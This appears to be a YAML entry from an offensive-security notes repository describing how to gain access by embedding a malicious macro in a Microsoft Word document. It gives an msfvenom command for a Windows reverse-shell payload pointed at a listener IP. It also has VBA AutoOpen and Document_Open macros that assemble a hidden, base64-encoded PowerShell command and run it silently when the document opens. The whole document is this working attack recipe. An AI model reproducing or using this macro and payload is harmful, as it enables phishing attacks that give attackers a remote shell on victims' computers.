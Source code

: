 ```yaml
---
functions:
  gain-access:
    - description: Embed a Macro into a MS WOrd Document
      code: |
        (1) Generate msfvenom code:
            msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.227 LPORT=9999 -f hta-psh

        (2) python3 splitstr.py 50 (link below)

        (3) Copy and paste “powershell.exe -nop -w hidden -e aQBmACgAWwBJ ...” into the splitstr prompt   - MIND THE QUOTES!

        (4) cp/paste as the Str variable in the MyMacro Sub below


        Sub AutoOpen()
            MyMacro
        End Sub

        Sub Document_Open()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim Str As String
            Str = ""
            Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
            Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
            Str = Str + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"
            Str = Str + "H0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGk"
            ...
            ...
            Str = Str + "GkAbgBkAG8AdwA9ACQAdAByAHUAZQA7ACQAcAA9AFsAUwB5AHM"
            Str = Str + "AdABlAG0ALgBEAGkAYQBnAG4AbwBzAHQAaQBjAHMALgBQAHIAb"
            Str = Str + "wBjAGUAcwBzAF0AOgA6AFMAdABhAHIAdAAoACQAcwApADsA"

            Set objShell = WScript.CreateObject("WScript.Shell")
            objShell.Run Str, 0, True
            

            End Sub

resources : |
  https://github.com/unkn0wnsyst3m/scripts/blob/master/splitstr.py
---
```


